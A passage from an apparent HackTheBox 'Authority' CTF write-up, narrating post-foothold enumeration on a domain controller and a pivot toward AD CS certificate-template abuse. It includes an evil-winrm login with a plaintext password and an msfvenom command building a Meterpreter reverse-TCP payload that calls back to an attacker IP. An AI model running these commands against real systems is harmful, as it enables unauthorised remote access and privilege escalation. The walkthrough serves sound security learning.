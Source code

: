 
We got our an initial foothold on the DC using svc_ldap.
```sh
evil-winrm \
	-i authority.authority.htb \
	-u svc_ldap@authority.htb \
	-p 'lDaP_1n_th3_cle4r!'
```
![](images/foothold.png)

```
Get-ComputerInfo
```
![](images/OS.png)

Windows defender is not running! 
```
sc.exe query windefend
```
![](images/windefend.png)

Let's use local_exploit_suggester  and  run winPEAS for now in the background. 

```
.\winPEASx64.exe >> enum.txt
```
```sh
msfvenom -p windows/x64/meterpreter/reverse_tcp \
	LHOST=10.10.14.93 \
	LPORT=53 \
	EXITFUNC=thread \
	-f exe \
	-o app.exe
```
We upload app.exe that we use to get a meterpreter session. Now we can use it to look for exploits. 

![](images/session.png)

```
use post/multi/recon/local_exploit_suggester
```
![](images/exploits.png)

We are not an administrator user so bypassing UAC will not help us.  

Also we can not even list local printers so we're not gonna be able to use a printer related exploit either. 

![](images/noprinter.png)


**MS16-032**

We've found precompiled binaries on the [SecWiki](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-032)'s  repository  and more information about the race condition.   
However based on the info we found on [exploit-db](https://www.exploit-db.com/exploits/39719) it should not work on windows server 2019. 

**CVE-2022-21882**

I guess this one could potentially crash box.
Let's have a look at the output of  the winPEAS command then we come back to this if we get desperate hehe. 

![](images/crash.png)

---

**winPEAS**

![](images/krbrelay.png)

I didn't find a whole lot of info using winpeas either.   
However I found  a LDAPs.pfx certificate lying around on c:/certs  

![](images/LDAPs.png)

I don't know  what I can do with it. And I don't know how to crack it.  Cus I tried using
pfx2john + john and couldn't find the secret yet.


**Found a clue**

![](images/direction.png)

I have no idea about what I'm doing .. but I guess I have a new direction.

Whatever we do to privesc it might have something to do with the playbooks we've 
found on the the Development share. 

I heard something about _Certificate template injection?_   on THM but have no idea on how to exploit it. The only thing I know is that  it has something to do with ADCS.

Time to google!

https://tryhackme.com/r/room/adcertificatetemplates

https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation

